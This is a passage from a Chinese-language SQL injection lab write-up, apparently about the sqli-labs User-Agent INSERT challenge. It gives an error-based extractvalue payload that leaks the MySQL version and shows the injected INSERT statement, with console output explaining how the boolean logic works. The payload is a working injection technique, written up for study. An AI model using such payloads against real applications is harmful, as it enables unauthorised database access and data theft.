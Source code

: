 当然，我一开始使用的注释是 -- ，但是不管用（php 给我把空格去掉了，我在 mysql 执行该 payload 生成的语句就可以），于是换成了 #

回显：XPATH syntax error: '#5.5.53'

测试成功，后面的步骤与方法你懂得。

学习了 mysql 注入天书对本节的注入流程后，我发现有另一种构造方式。

payload

```
'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1
```

实际执行的语句为：

```
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`)
VALUES (''and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1', '192.168.107.1', 'admin')
```

此 payload 以不改变其他字段内容为出发点，利用 and 连接 布尔值，返回布尔值，而布尔值可以与 0 或 1 进行自动转换的特点构造而成。（注：空串可以自动转化为 0 以及布尔值 false）。

下面证实我的说法

```sql
mysql> insert into temp values(1 and 1 and 1,'me','pwd');
Query OK, 1 row affected (0.00 sec)

mysql> select * from temp;
+------+-------+----------+
| id   | uname | pass     |
+------+-------+----------+
|    1 | admin | pass     |
|    2 | user  | password |
|    3 | green | pwd      |
|    1 | me    | pwd      |
+------+-------+----------+
4 rows in set (0.00 sec)

mysql> insert into temp values(''and 1 and 1,'me','pwd');
Query OK, 1 row affected (0.00 sec)

mysql> select * from temp;
+------+-------+----------+
| id   | uname | pass     |
+------+-------+----------+
|    1 | admin | pass     |
|    2 | user  | password |
|    3 | green | pwd      |
|    0 | me    | pwd      |
|    1 | me    | pwd      |
+------+-------+----------+
5 rows in set (0.00 sec)
```
